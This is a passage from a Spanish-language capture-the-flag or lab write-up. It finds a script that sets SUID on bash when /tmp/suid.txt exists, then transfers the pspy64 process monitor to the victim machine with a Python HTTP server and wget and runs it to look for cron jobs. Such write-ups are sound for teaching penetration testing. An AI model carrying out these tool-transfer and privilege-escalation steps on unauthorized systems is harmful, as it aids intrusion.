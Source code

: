 Vemos varias cosas interesantes, por lo vemos hay una opcion en la que si detecta el programa que existe un archivo llamado `suid.txt` en la carpeta `/tmp` se establecen permisos de `SUID` a la `bash` de lo contrario no hace nada.

Pero aunque lo creemos el archivo no pasara nada, tambien podemos creer que se esta ejecutando un `crontab` ya que esto tiene pinta de que se esta ejecutando cada `x` tiempo.

Vamos a pasarnos el script `pspy64` a la maquina victima mediante un servidor de `python3` y en la maquina victima con `wget`.

```shell
python3 -m http.server 80
```

Ahora en la maquina victima:

```shell
cd /tmp
wget http://<IP>/pspy64
```

Una vez que nos lo hayamos pasado estableceremos permisos de ejecucion.

```shell
chmod +x pspy64
```

Ahora ejecutaremos dicho script.

```shell
./pspy64
```

Info:

```
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/05/20 03:34:07 CMD: UID=1000  PID=1053   | ./pspy64 
2025/05/20 03:34:07 CMD: UID=0     PID=1021   | 
2025/05/20 03:34:07 CMD: UID=0     PID=976    | 
2025/05/20 03:34:07 CMD: UID=1000  PID=958    | -bash 
2025/05/20 03:34:07 CMD: UID=1000  PID=957    | sshd: david@pts/0    
2025/05/20 03:34:07 CMD: UID=1000  PID=948    | (sd-pam) 
2025/05/20 03:34:07 CMD: UID=1000  PID=947    | /lib/systemd/systemd --user 
2025/05/20 03:34:07 CMD: UID=0     PID=944    | sshd: david [priv]   
2025/05/20 03:34:07 CMD: UID=0     PID=943    | 
2025/05/20 03:34:07 CMD: UID=33    PID=917    | php-fpm: pool www                                                             
2025/05/20 03:34:07 CMD: UID=33    PID=916    | php-fpm: pool www                                                             
2025/05/20 03:34:07 CMD: UID=33    PID=915    | php-fpm: pool www                                                             
```